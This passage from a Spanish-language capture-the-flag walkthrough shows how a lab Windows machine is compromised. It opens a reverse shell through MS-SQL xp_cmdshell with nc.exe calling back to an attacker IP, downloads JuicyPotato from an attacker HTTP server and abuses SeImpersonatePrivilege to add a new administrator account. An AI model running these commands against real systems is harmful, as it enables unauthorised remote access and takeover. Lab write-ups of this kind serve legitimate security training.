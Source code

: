 1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Compartimos el binario nc.exe

    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe .
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. Desde el ms-sql

    ```bash
    xp_cmdshell "\\10.10.14.7\smbFolder\nc.exe -e cmd 10.10.14.7 443"
    ```

Ya hemos ganado accesso al systema como el usuario Sarah y podemos ver la flag

## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
systeminfo
whoami /priv
```

Aqui vemos que tenemos el `SeImpersonatePrivilege` ;)

Tiramos como siempre de JuicyPotatoe.exe

Lo descargamos en la maquina de atacante y lo enviamos a la victima.

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
cp /usr/share/sqlninja/apps/nc.exe
python3 -m http.server 80
```

En la maquina victima lo descargamos

```bash
cd C:\Windows\Temp
mkdir privesc
cd privesc
iwr -uri http://10.10.14.7/JuicyPotato.exe -OutFile JuicyPotato.exe
```

Nos creamos un nuevo usuario con el JuicyPotato.

```bash
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user s4vitar s4vitar1234$! /add"
./JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators s4vitar /add"
```
